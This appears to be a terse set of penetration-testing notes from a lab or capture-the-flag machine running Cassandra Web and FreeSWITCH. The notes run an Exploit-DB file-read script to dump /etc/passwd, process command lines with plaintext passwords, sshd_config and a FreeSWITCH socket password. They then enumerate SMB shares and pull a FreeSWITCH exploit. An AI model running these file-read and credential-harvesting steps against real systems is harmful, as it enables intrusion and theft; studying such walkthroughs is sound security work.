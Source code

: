 -  **python 49362\.py 192\.168\.246\.240 /etc/passwd \-p 3000**
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www\-data:x:33:33:www\-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug\-Reporting System \(admin\):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
\_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd\-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd\-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd\-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd\-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:106:113::/nonexistent:/usr/sbin/nologin
cassandra:x:107:114:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin
cassie:x:1000:1000::/home/cassie:/bin/bash
freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false
anthony:x:1001:1001::/home/anthony:/bin/bash

-  python 49362\.py 192\.168\.246\.240 /proc/self/cmdline
# /usr/bin/ruby2\.7/usr/local/bin/cassandra\-web\-\-usernameadmin\-\-passwordP@ssw0rd \-p 3000 

-  /usr/bin/ruby2\.5/usr/local/bin/cassandra\-web\-ucassie\-p SecondBiteTheApple330

-  python 49362\.py 192\.168\.246\.240 /etc/ssh/sshd\_config \-p 3000
?? cannot log in as cassie as SSH is enabled for anthony and root

-  smbclient \-L \\\\192\.168\.246\.240
Sharename       Type      Comment
\-\-\-\-\-\-\-\-\-       \-\-\-\-      \-\-\-\-\-\-\-
print$          Disk      Printer Drivers
backup          Disk      Backup web directory shares
IPC$            IPC       IPC Service \(Samba 4\.9\.5\-Debian\)
Reconnecting with SMB1 for workgroup listing\.

Server               Comment
\-\-\-\-\-\-\-\-\-            \-\-\-\-\-\-\-

Workgroup            Master
\-\-\-\-\-\-\-\-\-            \-\-\-\-\-\-\-
WORKGROUP            

-  smbclient \\\\\\\\192\.168\.246\.240\\\\backup 
-  cd /etc/freeswitch/autoload\_configs/
-  going through freeswitch documentation event\_socket\.conf file contains freeswitch password

python 49362\.py 192\.168\.246\.240 /etc/freeswitch/autoload\_configs/event\_socket\.conf\.xml \-p 3000 

\<configuration name="event\_socket\.conf" description="Socket Client"\>
\<settings\>
\<param name="nat\-map" value="false"/\>
\<param name="listen\-ip" value="0\.0\.0\.0"/\>
\<param name="listen\-port" value="8021"/\>
\<param name="password" value="StrongClueConEight021"/\>
\</settings\>
\</configuration\>

-  searchsploit freeswitch
-  searchsploit \-m 47799
